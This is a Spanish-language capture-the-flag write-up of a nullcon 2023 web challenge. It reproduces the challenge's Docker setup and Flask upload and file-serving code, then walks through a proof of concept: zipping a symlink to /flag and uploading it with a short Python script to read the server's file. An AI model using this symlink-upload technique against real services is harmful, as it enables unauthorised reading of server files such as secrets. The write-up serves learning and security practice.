 # Exploiting zip symlinks(nullcon CTF 2023)

# Descripción

![ZipSymlinks](Posts/CTF/2023/NullConCTF/Web/ZipSymlinks/Untitled.png)

Tenemos dos servicios web, uno para subir zips y otro para ver el contenido del zip una vez que lo hemos subido.

## Docker

### Docker-compose

```docker
version: "3.1"
services:
  zpr:
    build:
      context: .
      dockerfile: Dockerfile.app
    volumes:
      - ./code:/app
      - shared_data:/tmp/data
    ports:
      - 10015:8080
    links:
      - serve
    depends_on:
      - serve
  serve:
    build:
      context: .
      dockerfile: Dockerfile.serve
    ports:
      - 10016:8088
    volumes:
      - ./code:/app
      - ./flag:/flag:ro
      - shared_data:/tmp/data
volumes:
  shared_data:
```

Este *docker-compose* contiene dos servicios

- zpr: monta 2 volumenes, uno para importar el servicio web y otro para datos temporales
- serve: monta 3 volumenes, uno para el servicio web, otro para los datos temporales y la flag que es el archivo que tenemos que conseguir leer

## Dockerfile.app

```docker
FROM python:latest

RUN apt-get update -y && apt-get install -y unzip

WORKDIR /app
COPY ./code/requirements.txt /tmp/requirements.txt
RUN pip install -r /tmp/requirements.txt

CMD python app.py
```

### Dockerfile.serve

```docker
FROM python:latest

WORKDIR /app
COPY ./code/requirements.txt /tmp/requirements.txt
RUN pip install -r /tmp/requirements.txt

CMD python serve.py
```

## Applications

### App 1(zpr)

```python
from flask import Flask, Response, request
from werkzeug.utils import secure_filename
from subprocess import check_output
import io
import hashlib
import secrets
import zipfile
import os
import random
import glob

app = Flask(__name__)
app.config['MAX_CONTENT_LENGTH'] = 1.5 * 1000 # 1kb

@app.route('/', methods=['GET'])
def index():
	output = io.StringIO()
	output.write("Send me your zipfile as a POST request and I'll make them accessible to you ;-0.")

	return Response(output.getvalue(), mimetype='text/plain')

@app.route('/', methods=['POST'])
def upload():
	output = io.StringIO()
	if 'file' not in request.files:
		output.write("No file provided!\n")
		return Response(output.getvalue(), mimetype='text/plain')

	try:
		file = request.files['file']

		filename = hashlib.md5(secrets.token_hex(8).encode()).hexdigest()
		dirname = hashlib.md5(filename.encode()).hexdigest()

		dpath = os.path.join("/tmp/data", dirname)
		fpath = os.path.join(dpath, filename + ".zip")

		os.mkdir(dpath)
		file.save(fpath)

		with zipfile.ZipFile(fpath) as zipf:
			files = zipf.infolist()
			if len(files) > 5:
				raise Exception("Too many files!")

			total_size = 0
			for the_file in files:
				if the_file.file_size > 50:
					raise Exception("File too big.")

				total_size += the_file.file_size

			if total_size > 250:
				raise Exception("Files too big in total")

		check_output(['unzip', '-q', fpath, '-d', dpath])

		g = glob.glob(dpath + "/*")
		for f in g:
			output.write("Found a file: " + f + "\n")

		output.write("Find your files at http://...:8088/" + dirname + "/\n")

	except Exception as e:
		output.write("Error :-/\n")

	return Response(output.getvalue(), mimetype='text/plain')

if __name__ == "__main__":
	app.run(host='0.0.0.0', port='8080', debug=True)
```

Este código recibe un archivo de un usuario y lo guarda en una ubicación temporal en el servidor. Luego, verifica si el archivo es un archivo zip y si contiene menos de 5 archivos, cada uno con un tamaño menor a 50KB y si el tamaño total del total de archivos no es mayor a 250KB. Si todo esto se cumple, extrae los archivos zip en la ubicación temporal y muestra los nombres de los archivos extraídos. Si no se cumple alguna de estas condiciones, muestra un mensaje de error. Al final, devuelve una respuesta en formato de texto que contiene los nombres de los archivos extraídos y un enlace para acceder a ellos en el servidor.

### App 2(serve)

```python
from functools import partial
import http.server
import re

PORT = 8088
HOST = "0.0.0.0"

http.server.SimpleHTTPRequestHandler._orig_list_directory = http.server.SimpleHTTPRequestHandler.list_directory

def better_list_directory(self, path):
	if not re.match(r"^/tmp/data/[0-9a-f]{32}", path):
		return None
	else:
		return self._orig_list_directory(path)

http.server.SimpleHTTPRequestHandler.list_directory = better_list_directory

Handler = partial(http.server.SimpleHTTPRequestHandler, directory="/tmp/data/")
Server = http.server.ThreadingHTTPServer

with Server((HOST, PORT), Handler) as httpd:
    httpd.serve_forever()
```

Este script crea un servidor de archivos que permite a los usuarios ver y descargar archivos en línea. Lo que lo hace diferente es que solo permite a los usuarios acceder a los archivos en una ubicación específica y solo si la ruta solicitada cumple con un patrón específico de expresión regular.

## Exploiting

### PoC

Sabiendo que la flag está en **/flag** vamos a crear un enlace simbólico llamado "link" que apunta al archivo "/flag". Este enlace simbólico "link" se comporta como un acceso directo al archivo original "/flag".

```bash
┌──(kali㉿kali)-[~/Downloads/web/chall/code]
└─$ ln -s /flag link
```

<aside>
💡 "-s" indica que el enlace creado será un enlace simbólico

</aside>

Crearemos un archivo ZIP llamado "archivo.zip" que contendrá el enlace simbólico "link". 

```bash
┌──(kali㉿kali)-[~/Downloads/web/chall/code]
└─$ zip --symlinks archivo.zip link
  adding: link (stored 0%)
```

<aside>
💡 “—symlink”: es utilizado para incluir los enlaces simbólicos en el archivo ZIP

</aside>

Posteamos nuestro archivo

```python
import requests

url = 'http://52.59.124.14:10015/'
filename = 'archivo.zip'
files = {'file': (filename, open(filename, 'rb'), 'application/zip')}

response = requests.post(url, files=files)

print(response.text)
```

Y recibimos una dirección donde extraerá los archivos que hemos subido

```bash
┌──(kali㉿kali)-[~/Downloads/web/chall/code]
└─$ python3 post.py 
Found a file: /tmp/data/68bbccd22c3c487f6c4ba1b45096b72d/link
Found a file: /tmp/data/68bbccd22c3c487f6c4ba1b45096b72d/bf7f0d48f06d8be6017082b56c7c9f57.zip
Find your files at http://...:8088/68bbccd22c3c487f6c4ba1b45096b72d/
```

Una vez accedemos nos muestra los archivos que hemos subido, descargamos el archivo link, lo abrimos y podemos ver el contenido almacenado en el servidor del archivo /flag gracias a los enlaces simbólicos